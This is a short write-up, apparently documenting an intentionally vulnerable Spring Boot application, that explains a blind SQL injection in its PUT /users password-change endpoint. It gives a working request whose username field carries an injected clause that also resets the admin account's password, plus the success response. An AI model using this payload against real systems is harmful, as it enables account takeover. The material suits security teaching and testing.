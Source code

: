 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Location** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"ding' OR username = 'admin",
        "newPassword":"password10!"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

